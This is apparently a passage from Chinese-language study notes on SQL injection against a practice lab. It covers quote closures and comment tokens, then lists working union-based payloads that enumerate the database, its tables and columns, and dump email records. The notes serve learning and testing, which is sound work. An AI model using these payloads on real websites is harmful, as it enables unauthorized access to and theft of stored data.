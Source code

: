 如果提交之后都能够正常显示就是为字符型注入，而字符型需要闭合符



```
?id='1 and 1=1'
```



闭合方式：

| ''   | ""   | ')   | ")   | 其他 |
| ---- | ---- | ---- | ---- | ---- |



不需要的语句可以使用下面的注释符号进行注释

- --+
- #
- %23



示例

union联合注入

```
?id=1' union select database() --+
```



 

## 4.判断SQL注入

- 查找注入点
- 判断字符型还是数字型 and 1=1 1=2  2-1
- 如果是字符型找到他的闭合方式' " ')  "),就是去试
- 判断查询列数group by order by
- 查询回显位置 -1



```
id=1   #判断注入点
id=1'  #判断注入点
id=1' and 1=1  #判断注入点
id=1' and 1=2  #判断注入点
id=1' order by 3 --+  #判断字段数
id=-1' union select 1,database(),user() --+  #查询库名与用户
id=-1' union select 1,database(),(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+  #查询表名
?id=-1' union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='emails' ) --+  #查询字段名
id=-1' union select 1,database(),(select group_concat(id,email_id) from emails  ) --+  #查询数据

```

